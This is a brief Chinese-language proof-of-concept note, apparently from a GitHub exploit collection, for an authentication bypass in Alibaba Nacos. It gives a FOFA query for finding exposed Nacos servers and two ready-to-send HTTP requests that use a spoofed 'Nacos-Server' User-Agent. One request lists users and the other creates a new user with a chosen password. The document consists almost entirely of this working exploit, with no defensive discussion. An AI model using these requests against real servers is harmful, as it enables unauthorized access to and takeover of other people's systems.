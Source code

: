 # Alibaba Nacos认证绕过

## 搜索资产
`fofa：title="Nacos"`

## POC：
#### 查看用户：
```shell
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```
![](img/query.jpg)

#### 添加用户：
```shell
POST /nacos/v1/auth/users HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/
*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

username=aaaa&password=bbbb
```
![](img/add.jpg)